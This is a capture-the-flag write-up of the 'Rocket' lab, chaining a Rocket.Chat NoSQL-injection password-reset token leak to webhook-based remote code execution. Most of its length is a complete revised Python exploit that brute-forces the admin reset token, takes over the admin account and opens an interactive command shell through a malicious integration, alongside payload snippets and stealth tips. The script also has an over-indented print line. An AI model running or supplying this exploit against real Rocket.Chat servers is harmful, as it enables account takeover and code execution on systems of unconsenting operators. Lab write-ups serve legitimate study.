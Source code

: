 # WIP: Rocket 

*Get ready for blast off!*

This room was a *quest*, many steps each a bit of effort. 

Scans revealed 22 and 80, on 80 you were redirected to 'rocket.thm', which a host entry needed to be created for.

There was just a brochureware site at that address, so with ffuf and scanning for subdomains (via `-H "Host: FUZZ.rocket.thm"`) the subdomain chat was found.

On chat.rocket.thm was, obviously, an instance of the Rocket Chat chat system. There is a few CVEs for this - the one I tried was https://www.exploit-db.com/exploits/49960, an exploit that can, with the email of an existing user and a target admin email account, reset passwords for these accounts via nosql injection to recover reset tokens, and then use the admin account to gain RCE via webhooks (the rocket chat webhook feature allows nodejs scripts).

The exploit by itself didn't work properly however - it could successfully reset passwords (changing them to `P@$$w0rd!1234`) but would fail when attempting to run the RCE. Examining the script, there were a few issues:

- first, resetting a password takes ages and it does this *twice*, once with the low priv user. This can be skipped by registering a user on the site then baking that user's password into the exploit and skipping the reset step. Though this might be unnecessary as its only purpose seems to be to get a OTP token.
- as just alluded to, the script assumes the site and the admin is protected by MFA. This is not the case for this room. Accordingly all the secret and code stuff in the script can be removed, but importantly, within the RCE function, the payload sent to the auth endpoint should be changed from:

  ```
  payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"totp\\":{\\"login\\":{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}},\\"code\\":\\"'+code+'\\"}}]}"}'
  ```
  
  to
  
  ```
  payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
  ```
- third, the rce execution doesn't work because it uses the wrong format for the nodejs script, compared to what rocketchat expects. specifically it tries to create an integration (webhook) with the following script:

  ```
  const require = console.log.constructor('return process.mainModule.require')();
  const { exec } = require('child_process');
  exec('+cmd+');
  ```
  
  this however is invalid. at this point I abandoned the exploit and using the reset admin credentials, modded the integration directly to follow this format:
  
  ```
  class Script
  {
    process_incoming_request() {
      const require = console.log.constructor('return process.mainModule.require')();
      const { execSync } = require('child_process');
      res = execSync('chmod +x /tmp/CR86Ge29yShsPuLFp && /tmp/CR86Ge29yShsPuLFp');
      return { error: { success: true, message: res.toString() } }
    }
  }
  ```
  this also changed some of the offsets used to find the token and id from the response
- finally, reading the output needed to be tweaked: since the result was in a message field, parsing the response as json then printing this field would get proper formatting.
  
Webhooks can be invoked by curl, and the full curl command is helpfully provided on the integrations page. Notably, in the above setup the output of the command is placed in the general chat channel, which isn't very stealthy. Alternatively using `return { error: { success: false, message: res.toString() } }` would output the error on the command line after curl. Also, bad failures of the script can be diagnosed in the logs (though the log will be full of errors from the token brute forcing, be warned).

With RCE, the box was enumerated slowly. Its a tied down docker container, with none of the common tools. To upload I changed rocket chats settings to use the file system and /tmp folder, and then uploaded files into chat. They would be placed in /tmp with random file names, but were otherwise fine.

## Revised RocketChat Exploit

This is a modification of the exploit-db script. It should just require an admin email address (admin@rocket.thm) and a target (http://chat.rocket.thm)

```python
#!/usr/bin/python

import requests
import string
import time
import hashlib
import json
import argparse
import sys

parser = argparse.ArgumentParser(description='RocketChat 3.12.1 RCE')
parser.add_argument('-a', help='Administrator email', default='admin@rocket.thm')
parser.add_argument('-t', help='URL (Eg: http://rocketchat.local)', default='http://chat.rocket.thm')
parser.add_argument('-p', help='Password to set (default is P@$$w0rd!1234)', default=b'P@$$w0rd!1234')
args = parser.parse_args()

adminmail = args.a
target = args.t
passToSet = args.p

def forgotpassword(email,url):
	payload='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"sendForgotPasswordEmail\\",\\"params\\":[\\"'+email+'\\"]}"}'
	headers={'content-type': 'application/json'}
	r = requests.post(url+"/api/v1/method.callAnon/sendForgotPasswordEmail", data = payload, headers = headers, verify = False, allow_redirects = False)
	print("[+] Password Reset Email Sent")

def resettoken(url):
	u = url+"/api/v1/method.callAnon/getPasswordPolicy"
	headers={'content-type': 'application/json'}
	token = ""

	num = list(range(0,10))
	string_ints = [str(int) for int in num]
	characters = list(string.ascii_uppercase + string.ascii_lowercase) + list('-')+list('_') + string_ints

	while len(token)!= 43:
		for c in characters:
			payload='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"getPasswordPolicy\\",\\"params\\":[{\\"token\\":{\\"$regex\\":\\"^%s\\"}}]}"}' % (token + c)
			r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
			time.sleep(0.5)
			if 'Meteor.Error' not in r.text:
				token += c
				print(f"Got: {token}")

	print(f"[+] Got token : {token}")
	return token

def changingpassword(url,token):
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"'+str(passToSet)+'\\"]}"}'
	headers={'content-type': 'application/json'}
	r = requests.post(url+"/api/v1/method.callAnon/resetPassword", data = payload, headers = headers, verify = False, allow_redirects = False)
	if "error" in r.text:
		exit("[-] Wrong token")
	print("[+] Admin Password was changed !")
	
def auth(url):
	# Authenticating
	sha256pass = hashlib.sha256(passToSet).hexdigest()
	headers={'content-type': 'application/json'}
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
	r = requests.post(url + "/api/v1/method.callAnon/login",data=payload,headers=headers,verify=False,allow_redirects=False)
	if "error" in r.text:
		return False
	data = json.loads(r.text)
	data =(data['message'])
	userid = data[32:49]
	token = data[60:103]
	return userid,token

def rce(url,userid,token,cmd):
	# Creating Integration
	payload = '{"enabled":true,"channel":"#general","username":"admin","name":"rce","alias":"","avatarUrl":"","emoji":"","scriptEnabled":true,"script":"class Script { process_incoming_request() { const require = console.log.constructor(\'return process.mainModule.require\')(); const { execSync } = require(\'child_process\'); res = execSync(\''+cmd+'\'); return { error: { sucess: true, message: res.toString() } } } }","type":"webhook-incoming"}'
	cookies = {'rc_uid': userid,'rc_token': token}
	headers = {'X-User-Id': userid,'X-Auth-Token': token}
	r = requests.post(url+'/api/v1/integrations.create',cookies=cookies,headers=headers,data=payload)
	data = r.text
	data = data.split(',')
	token = data[14]
	token = token[9:57]
	_id = data[20]
	_id = _id[7:24]

	# Triggering RCE
	u = url + '/hooks/' + _id + '/' +token
	r = requests.get(u)
	res = json.loads(r.text)
		print(res["message"])

############################################################

authRes = auth(target)
if authRes == False:
	## Sending Reset mail
	print(f"[+] Resetting {adminmail} password")
	forgotpassword(adminmail,target)

	## Getting reset token
	token = resettoken(target)

	## Resetting Password
	changingpassword(target,token)
	
	print("[+] authenticating as admin")
	authRes = auth(target)
	if authRes == False:
		print("[-] failed to auth")
		sys.exit()

## Authenticating and triggering rce

while True:
	cmd = input("CMD:> ")
	try:
		rce(target,authRes[0],authRes[1],cmd)
	except:
		print("command failed")
```
